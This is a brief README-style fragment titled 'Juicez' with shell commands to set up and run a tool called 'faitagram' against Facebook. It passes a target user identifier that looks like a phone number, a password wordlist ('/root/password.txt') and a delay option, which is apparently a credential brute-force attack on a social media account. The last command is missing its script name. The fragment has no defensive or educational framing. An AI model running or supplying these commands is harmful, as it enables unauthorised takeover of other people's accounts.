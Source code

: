 # Juicez
chmod +x faitagram && chmod +x setup.py
python setup.py
python faitagram -s facebook -u 07012549829 -w wlist -d delay
python -s facebook -u 07012549829 -w /root/password.txt

